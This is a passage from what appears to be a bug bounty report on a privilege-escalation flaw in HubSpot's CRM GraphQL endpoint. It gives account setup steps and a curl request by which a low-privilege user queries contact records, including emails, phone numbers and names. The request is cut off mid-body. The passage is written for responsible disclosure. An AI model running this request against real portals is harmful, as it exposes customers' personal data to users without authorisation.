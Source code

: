 **Endpoint:** `https://app-na2.hubspot.com/api/graphql/crm`
**Portal ID:** 242862774 (test portal - safe to demonstrate)
**Affected Operations:** `CrmObjectsSearchQuery` and likely others

---

## Steps to Reproduce

### Prerequisites

1. Create two accounts in the SAME HubSpot portal (e.g., portal 242862774):
   - **Account A (HIGH-PRIV):** Full CRM access user (buttercupck@wearehackerone.com)
   - **Account B (LOW-PRIV):** Limited access user (buttercup_ck@bugcrowdninja.com)

2. Verify LOW-PRIV account only has object-builder access, NOT full CRM UI access

### Exploitation Steps

**Step 1:** Log into LOW-PRIV account (buttercup_ck@bugcrowdninja.com)

**Step 2:** Open browser DevTools → Network tab

**Step 3:** Capture the CSRF token and session cookies from LOW-PRIV account

**Step 4:** Execute the following request with LOW-PRIV credentials:

```bash
curl -k 'https://app-na2.hubspot.com/api/graphql/crm?portalId=242862774&clienttimeout=14000&hs_static_app=crm-index-ui&hs_static_app_version=2.49867' \
  -X POST \
  -H 'Host: app-na2.hubspot.com' \
  -H 'Content-Type: application/json' \
  -H 'X-HubSpot-CSRF-hubspotapi: [YOUR-LOW-PRIV-CSRF-TOKEN]' \
  -H 'Cookie: [YOUR-LOW-PRIV-COOKIES]' \
  -H 'Origin: https://app-na2.hubspot.com' \
  --data-binary '{
    "operationName": "CrmObjectsSearchQuery",
    "variables": {
      "filterGroups": [{"filters": []}],
      "objectTypeId": "0-1",
      "query": "",
      "properties": [
        "company", "createdate", "email", "firstname",
        "hs_additional_domains", "hs_additional_emails",
        "hs_all_accessible_team_ids", "hs_all_owner_ids",
        "hs_all_team_ids", "hs_analytics_source",
        "hs_analytics_source_data_1", "hs_language",
        "hs_lastactivitydate", "hs_latest_source",
        "hs_latest_source_data_1", "hs_marketable_reason_type",
        "hs_object_id", "hs_object_source_id", "hs_pipeline",
        "hubspot_owner_id", "hubspot_team_id", "jobtitle",
        "lastname", "lifecyclestage", "name",
        "notes_last_contacted", "notes_last_created",
        "notes_last_updated", "objectType", "phone",
        "product_purchased", "support_priority"
      ],
      "sorts": [
        {"property": "createdate", "order": "DESC"},
        {"property": "hs_object_id", "order": "DESC"}
      ],
      "count": 25,
      "offset": 0
    },
```